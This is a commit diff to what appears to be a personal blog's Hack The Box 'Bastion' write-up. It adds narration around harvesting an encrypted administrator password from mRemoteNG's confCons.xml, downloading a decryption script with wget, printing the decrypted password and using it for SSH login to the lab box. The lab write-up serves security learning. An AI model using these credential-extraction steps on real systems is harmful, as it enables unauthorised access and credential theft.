

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-10-bastion.md, in a window 1280 px wide and 1400 px high, scrolled down 9297 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-10-bastion.md
+++ b/_posts/2020-08-10-bastion.md
@@ -13,8 +13,24 @@
 
 ------
 
+- cat
+- cd
+- cp
+- guestmount
+- hashcat
+- ls
+- mkdir
+- mount
 - nmap
--
+- pwd
+- python
+- samdump2
+- smbmap
+- smbserver
+- ssh
+- type
+- wget
+- winpeas
 
 
 ## Reconnaissance
@@ -356,11 +376,13 @@
 gather mremoteng saved password
 ```
 
-http://forum.mremoteng.org/viewtopic.php?f=3&t=2179
+Looking on Google for exploit, I found this [post](http://forum.mremoteng.org/viewtopic.php?f=3&t=2179) telling where to found the file where the passwords are stored :
 
 ```
 C:\Users\<Your_Windows_Account>\AppData\Roaming\mRemoteNG) right-click on confCons.xml
 ```
+
+So I search it on the box :
 
 ```
 PS C:\Users\L4mpje\AppData\Roaming\mRemoteNG> type .\confCons.xml
@@ -419,22 +441,33 @@
 </mrng:Connections>
 ```
 
-Can see password for administrator :
+I can see the encypted password for the administrator :
 
 ```
 aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
 ```
 
-Found this script to decrypr it :
+I then found this script to decrypt it :
 
 ```
 wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
 ```
 
+Run it on to the found encrypted pssword :
+
 ```
 python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
 Password: thXLHM96BeKL0ER2
 ```
+
+Nice, it works I now have credentials for the administrator :
+
+```
+login :administrator
+password : thXLHM96BeKL0ER2
+```
+
+Let's try them on the SSH port :
 
 ```
 ssh administrator@10.10.10.134
@@ -447,13 +480,7 @@
 bastion\administrator
 ```
 
-
-
-## Exploit
-
-------
-
-
+It's a win ! I can now read the flag !
 
 ## Flags
 
````
Also changed, not shown: other parts of _posts/2020-08-10-bastion.md (+5 -1 lines).
